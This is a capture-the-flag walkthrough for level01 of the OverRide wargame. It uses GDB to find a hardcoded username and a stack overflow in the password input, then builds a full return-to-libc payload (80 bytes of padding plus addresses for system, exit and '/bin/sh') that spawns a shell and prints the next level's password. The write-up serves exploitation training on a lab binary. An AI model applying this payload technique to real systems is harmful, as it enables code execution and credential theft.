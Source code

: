 # Level01 Walkthrough

## Analyzing the Program with GDB

1. **Whats happening**:  

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...
```

- We find "dat_will" with `disas verify_user_name` 
```bash
[...]
0x0804847d <+25>:    mov    $0x80486a8,%eax
[...]
(gdb) x/s 0x80486a8
0x80486a8:       "dat_wil"
```

- We can see that an overflow can happened in the password, and in the fgets functions: 

```bash
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip
eip            0x37634136       0x37634136 <------> offset 80
```

- Lets use a "return to libc" attack which will overwrite the EIP return address with a particular libc function address directly. 

We're going to overwrite the EIP with the address of system, "/bin/sh" and exit()

```bash
(gdb) b *main
Breakpoint 1 at 0x80484d0
(gdb) r
Breakpoint 1, 0x080484d0 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +999999, "/bin/sh"
Pattern not found.
(gdb) find &system, +99999999, "/bin/sh" <----- is use to look for an address in memory where the string. '+9999999999' long search
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

Exit() because it will segfault upon exit

2. **Payload**:  
    Payload is : 
    - USERNAME : print "dat_wil\n"
    - PADDING : "A"*80 +
    - SYSTEM : 0xf7e6aed0 but have to translate in little endian 
    - EXIT : 0xf7e5eb70 but have to translate in little endian 
    - /BIN/SH : 0xf7f897ec but have to translate in little endian 

---

## Running the Program

```bash
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
^C
```

## Moving to level02

1. **Swith User to level02**:
    Run ```su level02```

2. **Authenticate with the Password**:
    
    <!-- # - RET_ADDRESS : 
    # ```bash
    # (gdb) b verify_user_name 
    # Breakpoint 1 at 0x8048469
    # (gdb) b verify_user_pass
    # Breakpoint 2 at 0x80484a8
    # (gdb) run
    # The program being debugged has been started already.
    # Start it from the beginning? (y or n) y
    # Starting program: /home/users/level01/level01 
    # ********* ADMIN LOGIN PROMPT *********
    # Enter Username: dat_will

    # Breakpoint 1, 0x08048469 in verify_user_name ()
    # (gdb) x/32xw $esp
    # x/32xw $esp-16
    # 0xffffd680:     0xffffd708      0xf7ff0a50      0x00000000      0xffffd6bc
    # 0xffffd690:     0x00000000      0xffffd6fc      0xffffd708      0x08048532
    # 0xffffd6a0:     0x0804a040      0x00000100      0xf7fcfac0      0x00000001
    # 0xffffd6b0:     0xffffd8cd      0x0000002f      0xffffd70c      0x00000000
    # `0xffffd6c0`:     0x00000000      0x00000000      0x00000000      0x00000000 -->
 